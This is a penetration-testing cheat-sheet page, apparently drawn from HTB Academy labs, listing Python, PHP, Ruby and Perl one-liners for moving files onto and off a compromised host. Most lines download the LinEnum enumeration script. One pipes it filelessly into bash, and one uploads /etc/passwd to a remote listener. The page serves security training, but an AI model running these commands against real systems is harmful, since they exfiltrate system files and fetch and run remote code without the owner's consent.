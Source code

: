 # Transfer with code

### Python

**Python3 - Download**

```shell-session
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

**Python2 - Download**

```shell-session
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

**Python3 - Upload**

```shell-session
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

{% hint style="info" %}
You have to run `uploadserver` Python package to create a uploadabel server before running the upload code.
{% endhint %}

### PHP

**PHP Download with File\_get\_contents()**

```shell-session
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

**PHP Download with Fopen()**

```shell-session
php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

**PHP Fileless**

```shell-session
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

### Ruby

**Ruby Download**

```shell-session
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

### Perl

**Perl Download**

```shell-session
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

## Resources

Most of the commands and contents are from **HTB academy lab!**
